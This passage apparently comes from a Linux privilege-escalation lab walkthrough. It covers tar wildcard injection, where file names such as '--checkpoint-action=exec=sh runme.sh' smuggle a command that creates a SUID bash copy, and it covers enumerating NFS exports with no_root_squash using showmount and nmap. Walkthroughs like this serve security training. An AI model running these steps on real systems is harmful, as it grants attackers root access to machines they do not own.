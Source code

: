  - Notice the wildcard at the end of the `tar` command. Let's see how we can exploit this.
 - Let's create a malicious script again:
```bash
echo 'cp /bin/bash /tmp/bash2; chmod +s /tmp/bash2' > /home/user/runme.sh
```
 - Now well add some extra parameters for the `tar` command when it runs:
```bash
chmod +x runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

### NFS Root Squashing
 - Check contents of `/etc/exports` and look for `no_root_squash`.
```bash
cat /etc/exports
```
```text
# /etc/exports: the access control list for filesystems which may be exported
#       to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```

 - Notice this line near the bottom:
```text
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

 - This is good. This means that the `/tmp` folder is accessing over the network, and whatever we do will be done as `root`. Let's see how to exploit this.

##### On the Attacker Machine

 - `apt install nfs-common` may need to be run if Kali is older.

 - Run one of the following:
```bash
showmount -e TARGET_IP
nmap -sV --script=nfs-showmount TARGET_IP
```

 - After running the nmap version, we see the following:
```text
Export list for 10.10.134.66:
/tmp *
```
```text
111/tcp open  rpcbind 2 (RPC #100000)
| nfs-showmount: 
|_  /tmp *
| rpcinfo: 
```
